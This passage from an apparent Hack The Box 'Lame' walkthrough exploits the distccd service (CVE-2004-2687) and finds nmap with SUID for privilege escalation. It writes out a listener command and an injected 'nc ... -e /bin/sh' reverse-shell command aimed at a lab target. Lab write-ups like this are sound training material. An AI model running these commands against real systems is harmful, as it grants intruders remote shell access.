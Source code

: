 ```
--- END BUFFER ---

[OK] Done.
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 4444
```

Get reverse shell

```bash
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 4444 -e /bin/sh"
```

![](images/4.png)

## Privilege Escalation

### Nmap SUID

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)
	
Using [LinEnum.sh](https://github.com/rebootuser/LinEnum) to audit Lame server, I saw nmap had SUID.

Exploit with [GTFOBins nmap](https://gtfobins.github.io/gtfobins/nmap/#shell)

```
daemon@lame:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/nmap
<snip>
```

Check nmap version
